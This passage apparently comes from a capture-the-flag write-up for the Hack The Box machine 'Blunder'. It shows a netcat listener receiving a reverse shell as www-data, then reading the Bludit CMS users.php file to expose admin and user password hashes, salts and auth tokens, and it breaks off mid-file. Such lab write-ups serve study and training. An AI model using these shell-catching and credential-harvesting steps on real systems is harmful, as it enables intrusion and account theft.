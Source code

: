 ```
root@kali:~/Documents/HTB/Boxes/Blunder# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.191] 40866
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:04:38 up  7:39,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shaun    :0       :0               06:25   ?xdm?   3:14   0.03s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## User
As always let's look for credentials into files.  
As discovered before, this is a flat-file CMS so we haven't got a database and all the data is stored inside .php files, so let's look into databse directory for both versions available under the web root:
```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{                                                                                                                     
    "admin": {      
        "nickname": "Admin",                
        "firstName": "Administrator",
        "lastName": "",                                 
        "role": "admin",                   
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",    
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",                                                                                               
        "instagram": "",
        "codepen": "",  
        "linkedin": "",
        "github": "",                         
        "gitlab": ""        
    },                                                                                                                
    "fergus": {
        "firstName": "",                            
        "lastName": "",   
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
```